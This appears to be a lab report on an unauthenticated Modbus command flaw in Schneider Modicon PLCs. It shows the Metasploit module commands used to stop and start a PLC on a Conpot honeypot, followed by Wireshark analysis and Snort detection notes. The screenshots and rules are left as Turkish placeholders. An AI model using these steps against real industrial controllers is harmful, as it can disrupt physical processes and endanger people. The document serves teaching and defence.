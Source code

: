 # Overview

In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target.<br>

This Report provides:

* Mitigation details for a vulnerability affecting working status of PLC.
* Disclosure of exploit runs on ModBus protocol.
* Simulating an attack scenario against Scada Honeypot (Conpot)
* Modbus attack diagnostic functions in Wireshark
* Writing IDS rules to detect attack

The module used was written by K. Reid Wightman. Let's start with her saying that  "The exploit is otherwise reliable, but depends on a specific version and can't (or doesn't) reliably autodetect."

***

# Vulnerability Overview

#### Improper Input Validation

This module allows a remote user to change the status of the PLC between stop and run.


For this, this module sends a series of initialization requests.<br>


#### Vulnerability Details
The Schneider Modicon with Unity series of PLCs use Modbus function code 90 (0x5a) to perform administrative commands without authentication.

It communicates using ModBus, or Telnet over Ethernet as well as<br>

Having a web server built in that allows a user to issue commands.

##### _Explotability_

This vulnerability could be exploited remotely.

##### _Existence of Exploit_

Known public exploits specifically target this vulnerability.

##### _Difficulty_

An attacker with a medium skill would be able to exploit this vulnerability.



## Impact

Successful exploitation of this vulnerability would allow an attacker to end process control by the PLC, allowing the PLC to switch its state between stop and run. Thus, the attacker can create many problems depending on the PLC's function.<br>

Impact to individual organizations depends on many factors that are unique to each organization.

<br>

***

# Exploitation of Vulnerability
As we mentioned before, with this exploit; attacker can cause a denial of service of the system.

In order to exploit the vulnerability we need to download [Metasploit](https://github.com/rapid7/metasploit-framework)<br>

After downloading metasploit we can run it by typing;

```
# msfconsole
```

We can see the ModBus Frameworks' modules by typing;

```
# show all
```

```
# use /auxiliary/admin/scada/modicon_command
```

```
# show options
```

We have checked what parameters our exploit needs to run. This exploit needs;<br>

`RHOST` = remote host ip address,<br>


paramateres.

```
# set RHOSTS <ip>
```

After giving the parameters which are wanted we are ready to run it.

```
# exploit
```

As you can see above, dos attack has started.

***

# Packet Analysing
Run wireshark while exploit we’ve use running behind.
You see the blue part. This packet is the packet to the modbus protocol we want to analyze.

```
# burada görüntü olmalı
```
Double-clicking on the line will open the package content. 
<br>
If we click Ethernet II line the linked parts will be highlighted. And so we can see the address information and the name of the protocol used.
```
# burada görüntü 2 olmalı 
```
<br>
IP Header holds network layer information. Of these, it keeps the information of the IPv4 protocol, which is accepted as the backbone of the OSI model, in all its details.

```
# burada görüntü 3 olmalı 
```
<br>
TCP, UDP, ICMP are important protocols of the transport layer of the OSI model given in the host-to-host connection. They play an important role in the error-free transmission of data. When it examines network layer information in Wireshark, you can see that TCP is used to communicate with the target device.
 
***

# Rules
As a result of using this module, an alarm as below was generated by the snort on the target machine.
```
# burada görüntü alarm olmalı 
```
<br>
Accordingly, we can say that there is a rule used for the modicon_command module on snort. The rules used are as follows.
```
# burada görüntü kural olmalı 
```

END
